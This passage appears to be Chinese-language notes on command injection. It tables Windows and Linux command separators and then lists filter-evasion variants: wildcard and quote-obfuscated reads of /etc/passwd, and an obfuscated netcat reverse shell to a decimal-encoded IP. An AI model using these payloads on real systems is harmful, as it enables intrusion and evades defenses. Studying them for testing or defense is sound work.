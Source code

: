 | 命令格式                 | 含义                                           |
| ------------------------ | ---------------------------------------------- |
| command1**&**command2    | 先后执行，无论command1是否成功                 |
| command1**&&**command2   | 先后执行，command1成功，才执行command2         |
| command1**\|\|**command2 | 先后执行，command1失败，才执行command2         |
| command1**\|**command2   | \|是管道符，将command1的执行结果传递给command2 |

#### (2). Linux

| 命令格式                 | 含义                                       |
| ------------------------ | ------------------------------------------ |
| command1**;**command2    | 先后执行，无论command1是否成功             |
| command1**&&** command2  | 先后执行，command1成功，才执行command2     |
| command1**&**command2    | 先执行command1并放置后台，在执行command2   |
| command1**\|\|**command2 | 先后执行，command1失败，才执行command2     |
| command1**\|**command2   | 管道符，将command1的执行结果传递给command2 |

### 5. 变形

#### (1). Linux

#####  a. bash通配符

| 通配符 | 通配符解释                      | 案例                          | 案例解释                       |
| ------ | ------------------------------- | ----------------------------- | ------------------------------ |
| *      | 代表**0到无穷多个**任意字符     | /bin/cat /etc/*wd             | 查看/etc文目录下以wd结尾的文件 |
| ?      | 代表一定有1个任意字符           | /b?n/cat /etc/pass?d          | 查看/etc文目录下符合要求的文件 |
| []     | 代表**一定有1个在括号内**的字符 | /bin/cat /etc/[pwe]ass[aswd]d |                                |
| -      | 代表**在编码顺序内的所有**字符  | [0-9]                         | 0到9之间的所有数字             |
| ^      | 代表**反向选择**                | [^abc]                        | 一定没有一个括号内的字符       |

##### b. IP转数字，数字转IP

```bash
192.168.12.151 =>  3232238743
反弹shell的使用： 	/???/nc -e /???/b??h 3232238743 1234
```

##### c. 连接符

```bash
#原型：/bincat /etc/passwd
1. 单引号： ''包裹
	/b'i'n/c'a't /e't'c/'p'a's's'w'd
2. 双引号
	c"a"t /"e"t"c"/"p"a"s"s"w"d
3. 反斜杠
	c\a\t /e\t\c/p\a\s\s\w\d
```

